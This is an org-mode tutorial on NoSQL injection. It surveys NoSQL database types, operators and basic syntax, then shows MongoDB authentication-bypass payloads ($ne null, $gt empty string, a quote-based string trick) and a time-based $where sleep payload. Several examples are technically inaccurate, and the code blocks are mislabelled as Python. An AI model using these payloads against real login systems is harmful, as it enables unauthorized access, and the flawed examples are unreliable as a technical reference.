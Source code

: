 #+title: Nosql Injection
#+author: gabriel

* intro
NoSQL databases are designed to handle big data processing requirements and typically have a distributed and flexible architecture.

NoSQL databases generally have the following features:

*unstructured or semi-structured data* -->
Uses data models like document, key-value pairs, graph, or column-based instead of traditional table and column structures.

*horizontal scalability* -->
 Scales by spreading the database load across many servers.

 *high performance and availability* -->
 Provides high-performance queries and continuous access with large datasets.

 NoSQL databases provide ideal solutions for modern applications that require big data and high availability.

* types of nosql databases
NoSQL databases are categorized into four main types based on data modelling approaches.

** Document-Oriented Databases
Document-oriented databases store data in JSON, BSON, or XML format documents. Each document can contain dynamically structured data and is grouped into collections.
- flexible schema
- supports complex and hierarchical data structures
- high-performance queries and indexing

*mongoDB* -->
One of the most widely used document-oriented NoSQL databases. It stores data in JSON-like documents and supports dynamic schemas.

*couchDB* -->
Uses JSON documents for data storage and querying. CouchDB is designed for distributed data structures and offline data access.

**  Key-Value Databases
Key-value databases store data as key-value pairs. Each key has a unique identifier, and the associated value can be of any data type.
- Simple data model
- High-speed data access
- High scalability in distributed systems

*Redis* -->
Operates as a high-performance key-value database using in-memory data structures. It is ideal for real-time analytics and caching.

*Riak* -->
Known for its high availability and data replication features. Riak is designed for large-scale distributed systems.

** Column-Family Databases
Column-family databases store data in rows and columns. However, each row can contain a different number and type of columns, grouped into column families.
- High write and read performance
- Optimized for large data sets
- Flexible data modeling

  *Cassandra* -->
  A distributed and scalable column-family database. It is known for high availability and data replication features.

  *HBase* -->
   Part of the Apache Hadoop ecosystem, used for big data processing and analysis. HBase provides efficient data access with a column-family data model.

**  Graph Databases
Graph databases model data as nodes and edges, representing objects and their relationships. These databases are ideal for storing and querying complex relational data.
- Optimized for complex relational queries
- Ability to model direct data relationships
- Flexible and dynamic data structures

  *neo4j*  -->
  One of the most popular graph databases. Neo4j performs complex network analyses by directly modeling data relationships.

  *arangodb* -->
  Operates as a multi-model database supporting graph data. ArangoDB offers both document and graph data modeling.

* operators and their usage

*checks for equality* -->
: { "field": { "$eq": value } }

*not equal (ne)* -->
: { "field": { "$ne": value } }

*greater than (gt)* -->
: { "field": { "$gt": value } }

*greater than or equal (gte)* -->
: { "field": { "$gte": value } }

*less than (lt)* -->
: { "field": { "$lt": value } }

*less than or equal (lte)* -->
: { "field": { "$lte": value } }

*in* -->
: { "field": { "$in": [value1, value2, ...] } }

*not in (nin)* -->
: { "field": { "$nin": [value1, value2, ...] } }

*exists* -->
: { "field": { "$exists": true } }

* NoSQL database syntax

** mongoDB
MongoDB is a document-oriented NoSQL database that stores data in JSON-like documents. Basic operations and syntax in MongoDB are as follows.

*insert document* -->
#+begin_src python
db.collection.insertOne({ "name": "Alice", "age": 25 });
db.collection.insertMany([{ "name": "Bob", "age": 30 }, { "name": "Charlie", "age": 35 }]);
#+end_src

*find document* -->
#+begin_src python
db.collection.find({ "name": "Alice" });
db.collection.find({ "age": { "$gt": 30 } });
#+end_src

*update document* -->
#+begin_src python
db.collection.updateOne({ "name": "Alice" }, { "$set": { "age": 26 } });
db.collection.updateMany({ "age": { "$lt": 30 } }, { "$inc": { "age": 1 } });
#+end_src

*delete document* -->
#+begin_src python
db.collection.deleteOne({ "name": "Alice" });
db.collection.deleteMany({ "age": { "$gte": 30 } });
#+end_src

** CouchDB
CouchDB is a document-oriented NoSQL database that stores data in JSON format. Basic operations and syntax in CouchDB are as follows.

*insert document* -->
#+begin_src python
PUT /database/document_id
{
  "name": "Alice",
  "age": 25
}
#+end_src

*find document* --->
: GET /database/document_id

*update document* -->
#+begin_src python
PUT /database/document_id
{
  "_rev": "revision_id",
  "name": "Alice",
  "age": 26
}
#+end_src

*delete document* --->
#+begin_src python
DELETE /database/document_id?rev=revision_id
#+end_src

** Redis
Redis is an in-memory key-value database that provides fast operations on data structures. Basic operations and syntax in Redis are as follows.

*Set key-value pair* -->
: SET key value

*Get key-value pair* -->
: GET key

*List push* -->
#+begin_src python
LPUSH mylist value
RPUSH mylist value
#+end_src

*List get* -->
: LRANGE mylist 0 -1

*Set add* -->
: SADD myset value

*Set members* -->
: SMEMBERS myset

*Hash set* -->
: HSET myhash field value

*Hash get* -->
: HGET myhash field

* Techniques
** string manipulation
String manipulation is commonly used in NoSQL Injection attacks. This technique injects malicious strings into the database when user inputs are not properly validated.

In the following example, we will see how a user authentication query can be manipulated in MongoDB:

#+begin_src python
// Vulnerable query
db.users.find({ "username": "admin", "password": "password123" });

// Query manipulated with malicious input
db.users.find({ "username": "admin' || '1'=='1", "password": "password123" });
#+end_src

In this case, the attacker might enter admin' || '1'=='1 in the "username" field. This input would transform the MongoDB query to include '1'=='1 which is always true, potentially returning all user records.

** boolean manipulation
Boolean manipulation is executed by altering boolean values in NoSQL queries. This technique can be used when user inputs are not validated correctly.

 NoSQL Injection using boolean manipulation in MongoDB

 #+begin_src python
// Vulnerable query
db.users.find({ "username": "admin", "password": "password123" });

// Query manipulated with malicious input
db.users.find({ "username": "admin", "password": { "$ne": null } });
 #+end_src

 n this scenario, the attacker inputs { "$ne": null } in the "password" field. This input would transform the MongoDB query to "password": { "$ne": null }, always evaluating to true, and potentially returning all user records.

** object manipulation
Object manipulation is carried out by manipulating object values in NoSQL queries. This technique is especially common in document-oriented databases such as MongoDB.

NoSQL Injection using object manipulation in MongoDB

#+begin_src python
// Vulnerable query
db.users.find({ "username": "admin", "password": "password123" });

// Query manipulated with malicious input
db.users.find({ "username": { "$gt": "" } });
#+end_src

In this case, the attacker might enter { "$gt": "" } in the "username" field. This input would transform the MongoDB query to "username": { "$gt": "" }

** array manipulation
Array manipulation is performed by altering array values in NoSQL queries. This technique is particularly prevalent in document-oriented databases such as MongoDB.

NoSQL Injection using array manipulation in MongoDB

#+begin_src python
// Vulnerable query
db.users.find({ "roles": "admin" });

// Query manipulated with malicious input
db.users.find({ "roles": { "$in": ["admin", "user"] } });
#+end_src

In this scenario, the attacker might enter { "$in": ["admin", "user"] } in the "roles" field. This input would transform the MongoDB query to "roles": { "$in": ["admin", "user"] }, and as long as this condition is true, potentially returning all user records.

* time-based noSQL Injection
These attacks use time-based conditions to understand how queries work and how the database responds.

Time-based injection attacks are a method to leak data or obtain system information by analyzing the response time of the database.


In the following example, we will see how a timing-based injection attack can be performed in MongoDB.

#+begin_src python
// Vulnerable query
db.users.find({ "username": username, "password": password });
#+end_src

This query is used to check a username and password. An attacker can inject malicious input into the username or password field to manipulate the query.

#+begin_src python
// Malicious input
username = "admin";
password = { "$where": "sleep(1000) || this.password == 'password123'" };

// Manipulated query
db.users.find({ "username": "admin", "password": { "$where": "sleep(1000) || this.password == 'password123'" } });
#+end_src

In this case, the $where operator has been injected into the password field. This operator adds a 1000 millisecond (1 second) delay while checking if the password field is password123.
